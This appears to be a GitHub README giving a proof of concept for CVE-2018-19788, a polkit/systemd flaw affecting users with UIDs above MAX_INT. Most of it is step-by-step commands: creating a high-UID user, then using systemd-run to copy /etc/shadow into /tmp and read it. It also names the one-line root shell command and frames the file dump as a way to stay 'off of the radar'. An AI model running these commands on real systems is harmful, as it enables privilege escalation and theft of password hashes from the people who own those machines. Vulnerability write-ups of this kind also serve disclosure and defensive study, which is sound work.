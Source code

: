 # Leveraging CVE-2018-19788 to dump protected files without root shell

[CVE-2018-19788](https://gitlab.freedesktop.org/polkit/polkit/issues/74) is an issue where any user with a UID over MAX_INT (IE 4000000000) can run any systemctl command on a systemd linux box, such as Ubuntu. (There is already a writeup to gain a root shell found: [here](http://manivelsysad.blogspot.com/2018/12/low-privileged-user-with-uid-greater.html)). The main difference between this writeup and the full root shell writeup is that this will be run as the user itself instead of a root user (basically just a PoC to be honest)

# Getting /etc/shadow without executing a root shell

To get a root shell it's as simple as running `systemd-run -t /bin/bash` but if you want to keep off of the radar you can run simple commands to get privileged files without a terminal. Follow these steps to do it:

 - Add a user with a UID above MAX_INT:
   ```bash
   adduser --uid 4000000000 someusername
   ```
 - Switch into the user account:
   ```bash
   su someusername
   ```
 - Run the command for whatever file you would like (we'll use /etc/shadow for this):
   ```bash
   systemd-run bash -c 'cat /etc/shadow > /tmp/results_poc.txt'
   ```
 - Your file is now in `/tmp`:
   ```bash
   cat /tmp/results_poc.txt
   ```

# PoC video

[![to_video](https://user-images.githubusercontent.com/14183473/50110172-3476cd00-01ff-11e9-883c-1a9fb3e0361e.png)](https://vimeo.com/306879983)
